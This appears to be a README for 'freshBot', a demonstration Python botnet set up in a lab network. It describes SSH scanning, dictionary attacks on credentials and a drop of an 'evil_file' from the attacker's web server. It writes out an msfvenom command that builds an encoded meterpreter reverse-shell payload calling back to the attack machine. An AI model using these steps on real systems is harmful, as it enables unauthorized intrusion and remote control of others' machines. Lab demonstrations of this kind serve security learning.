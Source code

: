 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4><br>
2. Our Web Server: <h4>192.168.203.1/evil_file</h4><br>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>&nbsp;&nbsp;192.168.203.150<br>
&nbsp;&nbsp;192.168.203.151<br>
&nbsp;&nbsp;192.168.203.152<br>
&nbsp;&nbsp;192.168.203.153<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scan, Dictionary Attack, RCE.</h4><br>
